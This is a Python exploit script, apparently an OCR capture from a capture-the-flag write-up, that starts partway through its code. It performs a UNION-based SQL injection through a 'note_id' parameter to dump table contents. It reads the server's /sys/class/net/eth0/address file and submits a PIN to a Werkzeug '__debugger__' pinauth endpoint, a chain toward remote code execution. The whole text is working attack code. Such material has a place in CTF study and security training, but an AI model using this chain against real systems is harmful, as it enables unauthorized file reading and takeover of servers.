 ```Python
    res = session.get(url, params=paramsGet, cookies=cookies)

    # print(tablename)

    return tablename





def readtable(tablename):

    paramsGet = {"note_id": f"0' union select 1,2,3,4,(select group_concat(concat_ws(0x7e,cmd)) from {tablename})\x23"}

    response = session.get(url, params=paramsGet, cookies=cookies)

    response = response.content.split(b'<h1 style="text-align: center">\n')[1].split(b"\n")[0][8:]

    # print(response)

    return response





def check(pin):

    res = session.get(url, cookies=cookies).text

    s = res.split("SECRET = \"")[1].split("\";")[0]

    paramsGet = {

        "__debugger__": "yes",

        "cmd": "pinauth",

        "s": s,

        "pin": pin

    }

    response = session.get(url, params=paramsGet, cookies=cookies)

    print(response.text)





if __name__ == '__main__':

    getmac = createTable("/sys/class/net/eth0/address")

    getmac = str(int(readtable(getmac).decode().replace(":", ""), 16))

    print(getmac)



```